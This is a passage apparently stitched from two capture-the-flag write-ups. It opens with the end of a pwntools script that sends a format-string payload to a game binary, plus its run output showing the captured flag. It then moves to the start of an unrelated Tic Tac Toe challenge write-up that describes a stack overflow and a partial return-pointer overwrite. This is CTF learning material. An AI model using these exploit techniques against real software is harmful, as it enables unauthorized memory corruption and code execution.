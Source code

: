 ```  
8 bytes have already been printed by the "Welcome ".  
"""  
proc.recvuntil('your name: \n')  
fmt = '%7561c%10$hnaaaa'+p64(0x603010)  
proc.sendline(fmt)

proc.recvuntil('Press ENTER to begin.\n')  
proc.sendline('')   # send enter  
proc.sendline('a')  # go left (wrap into last column)  
proc.sendline('s')  # move down to middle row.  
proc.sendline('s')  # move down to bottom row.  
proc.sendline(' ')  # send space to fill square (bottom-left)  
proc.sendline('a')  # move left (into middle column)  
proc.sendline(' ')  # send space to fill square (bottom-middle)  
proc.sendline('a')  # move left (into left column)  
proc.sendline(' ')  # send space to fill square (bottom-left)  
proc.sendline('q')  # finish game

lines_printed = proc.recvuntil('Do you want to play again?')  
print "\n".join(lines_printed.split('\n')[-4:])  
```

### Using it:

```  
$ ./exploit.py REMOTE  
[+] Connecting to challenges2.hexionteam.com on port 3004: Done  
[*] [email protected]:  
Distro    Unknown  
OS:       linux  
Arch:     amd64  
Version:  5.0.0  
ASLR:     Enabled  
[+] Starting rem*

hexCTF{h3y_th4ts_ch3at1ng}  
Do you want to play again?  
$  
```# Tic Tac Toe

The description for this challenge is as follows:

*I made this super impressive Tic Tac Toe application; it will tell you who won a match. Don't you think that is amazing? I'm hosting it at host.cg21.metaproblems.com on port 3120 if you want to test it out. Here I'll even give you the source code to try it out yourself if you would like!*

*No brute force is needed, the solution should work everytime!*

This was one of the easier pwn problems, with 79 solves, and it was worth 200
points. In my opinion, the reverse engineering was the hardest part. The
downloadables for this challenge were a tar archive that contained the
original binary, C source code, and docker setup information; I just ran the
binary locally and did not use the docker setup.

**TL;DR Solution:** Notice that you can keep inputting bad characters in order
to overflow a stack buffer. Specifically, you can overwrite into the counter
variable in order to target the return pointer for overwrite. Then do a
partial overwrite on the return pointer in order to call the win function.

## Original Writeup Link

This writeup is also available on my GitHub! View it there via this link:
https://github.com/knittingirl/CTF-
Writeups/tree/main/pwn_challs/MetaCTF21/Tic_Tac_Toe
```